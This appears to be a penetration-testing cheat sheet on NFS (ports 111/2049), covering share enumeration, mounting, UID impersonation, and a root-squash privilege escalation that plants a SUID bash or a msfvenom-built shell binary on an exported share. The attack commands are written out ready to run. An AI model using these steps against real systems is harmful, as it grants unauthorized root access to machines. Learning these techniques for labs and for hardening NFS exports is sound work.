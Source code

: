 # 111, 2049 - NFS

**NFS** is a server/client system enabling users to share files and directories across a network and allowing those shares to be mounted locally. While both useful and versatile, NFS has no protocol for authorization or authentication, making it a common pitfall for misconfiguration and therefore exploitation.

{% hint style="danger" %}
If you mount a folder which contains files or folders only accesible by some user (by UID). You can create locally a user with that UID and using that user you will be able to access the file/folder. The mount shows user and group id for everything. If it does not show a user or group on my host/VM, there is no user with that id.

```bash
# Create a user 
sudo adduser testuser
# Assign a UID to that user
sudo usermod -u 9999 testuser
# Assign a GID to that user
sudo groupmod -g 9999 testuser
```
{% endhint %}

## Best method

```bash
nmap -sV -p 111 --script=rpcinfo $IP

# If we see service nfs:
nmap -p 111 --script nfs* $IP

# Then we mount the directory we see. -o vers=2 might be necessary to use version 2
mkdir /tmp/mount
sudo mount -t nfs [-o vers=2] $IP:$PATH /tmp/mount/ -nolock
cd /tmp/mount && ls

# If there are files with a specific UID:
sudo adduser test
# change UID of user to that specific by modifying /etc/passwd

# When we finish, we unmount the share:
sudo umount /tmp/mount
```

## Alternatives

{% code overflow="wrap" fullWidth="true" %}
```bash
root@kali:~ nc -nv 10.11.1.72 2049
(UNKNOWN) [10.11.1.72] 2049 (nfs) open

showmount -e $IP

mkdir /tmp/mount
sudo mount -t nfs IP:share /tmp/mount/ -nolock

################# EXPLOIT NFS
Bash executable https://github.com/TheRealPoloMints/Blog/blob/master/Security%20Challenge%20Walkthroughs/Networks%202/bash

    NFS Access ->

        Gain Low Privilege Shell ->

            Upload Bash Executable to the NFS share ->
Download the bash executable to your Downloads directory. 
Then use "cp ~/Downloads/bash ." to copy the bash executable to the NFS share. 
The copied bash shell must be owned by a root user, you can set this using "sudo chown root bash"

                Set SUID Permissions Through NFS Due To Misconfigured Root Squash ->
sudo chmod +s bash
                    Login through SSH ->

                        Execute SUID Bit Bash Executable ->

                            ROOT ACCESS

---------------------------
rpcinfo -p <IP>
showmount <IP> -a
mount 10.11.1.X:/sites/ ./testing
```
{% endcode %}

## Privesc

Files created via **NFS** inherit the **remote** user's ID. If the user is root, and root squashing is enabled, the ID will instead be set to the "nobody" user.

```bash
cat /etc/exports
# If there is a share with root squashing disabled, we can exploit it.

# Do this on your Kali machine as root:
mkdir /tmp/nfs
sudo mount -t nfs -o vers=2 10.10.10.10:/srv/exportnfs /tmp/nfs/ -nolock
mount -o rw,vers=2 $TARGET_IP:/$SHARE /tmp/nfs
msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o /tmp/nfs/shell.elf
chmod +xs /tmp/nfs/shell.elf

# Now back to the victim machine, we execute the file to gain a root shell:
/tmp/shell.elf

# If we get this error
mount.nfs: requested NFS version or transport protocol is not supported
try -o vers=1/2/3
```

## References

| [https://docs.oracle.com/cd/E19683-01/816-4882/6mb2ipq7l/index.html](https://docs.oracle.com/cd/E19683-01/816-4882/6mb2ipq7l/index.html) |
| ---------------------------------------------------------------------------------------------------------------------------------------- |
| [https://www.datto.com/library/what-is-nfs-file-share](https://www.datto.com/library/what-is-nfs-file-share)                             |
| [https://wiki.archlinux.org/title/NFS](https://wiki.archlinux.org/title/NFS)                                                             |
